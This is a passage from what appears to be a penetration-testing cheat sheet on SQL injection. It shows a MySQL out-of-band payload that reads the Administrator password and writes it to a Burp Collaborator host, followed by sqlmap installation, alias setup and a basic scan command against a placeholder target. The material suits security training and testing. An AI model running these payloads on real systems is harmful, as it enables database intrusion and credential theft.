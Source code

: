 </template>
<template v-slot:mysql>

```sql
{{ query SELECT password FROM users WHERE username='Administrator'}} INTO OUTFILE '\\\\{{ collaborator your-burpcollaborator.net }}\a'
```
> This MySQL technique only works on windows

</template>
</smart-tabs>

## sqlmap

`sqlmap` is **The Tool** when it comes to exploitng SQL injection vulnerabilities.

### Installation

It is written in Python and has no dependencies at all, so you can just clone it and run it with no setup:

```shell
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git {{ sqlmap-dir sqlmap-dev }}
```

I usually add it to my path as `sqlmap` or save it as an alias, whatever feels faster for you.

<smart-tabs variable="path-vs-alias" :tabs="{'path': 'Path', 'alias': 'Alias'}">
<template v-slot:path>

```
ln {{ sqlmap-dir sqlmap-dev }}/sqlmap{.py,}
chmod u+x {{ sqlmap-dir sqlmap-dev }}/sqlmap
```

And add the following line to your `~/.zshrc` or `~/.bashrc`:

```bash
export PATH=$PATH:{{ sqlmap-dir sqlmap-dev }}
```

</template>
<template v-slot:alias>

Just add the following line to your `~/.zshrc` or `~/.bashrc`:

```bash
alias sqlmap="{{ python-interpreter python }} {{ sqlmap-dir sqlmap-dev }}/sqlmap.py"
```

</template>
</smart-tabs>


### Basic usage

```bash
sqlmap -u "{{ target-url https://vulnerable.net/product?id=5 }}" -p "{{ target-param id }}"
```
